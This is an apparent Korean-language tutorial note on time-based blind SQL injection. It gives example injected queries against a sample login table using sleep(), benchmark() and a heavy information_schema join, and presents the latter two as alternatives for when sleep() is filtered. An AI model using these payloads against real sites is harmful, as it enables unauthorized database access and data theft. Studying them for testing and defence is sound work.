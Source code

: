 # time based blind sqli

#### time based blind sqli 란
 
> blind sqli 를 시도해도 참인이 거짓인지 반환을 받지 못할때 시간지연 함수로 참과 거짓의 값을 가져온다.

db 예)

```sql
database -> test
tables -> member
column -> id, pw
column data -> (admin , password) (guest, guest)
```


Query 예)

```sql
SELECT * FROM member WHERE id='' or 1=1 and sleep(1);--and pw='';

SELECT * FROM member WHERE id='' and pw='' or 1=1 and sleep(1);--'';

# 1=1 과 sleep(1) 가 참이므로 작동이 된다.
# 1=1 식 자체는 참이고 sleep(1) 는 실행만 잘 되면 참이기때문에
# 시간지연이 일어나면서 참이라는 값을 얻게 된다.
```

하지만 이처럼 sleep() 같은 시간지연 함수가 필터링 될때에는 다양한 방법중에
자주 쓰이는 방법은 3개의 함수, 쿼리가있다.

```sql
sleep()

benchmark()

SELECT count(*) FROM information_schema.columns A , information_schema.columns B , information_schema.columns C;
```

이 3개의 방법을을 응용하여 

time-based sql injection 쿼리를 만든다면

이렇게 완성된다.
```sql

SELECT * FROM member WHERE id='' or 1=1 and sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and benchmark(73900000*10,md5(1));

SELECT * FROM member WHERE id='' or 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B);
```

### sleep(10);

__sleep() 함수는 사용할시에 시간지연을 시킨다.__

sleep() 함수는 정속적으로 지연되면 True 
그렇지 않다면 False 를 반환한다.

### benchmark();

__benchmark() 함수는 특정 연산 또는 구문을 반복시킨다.__

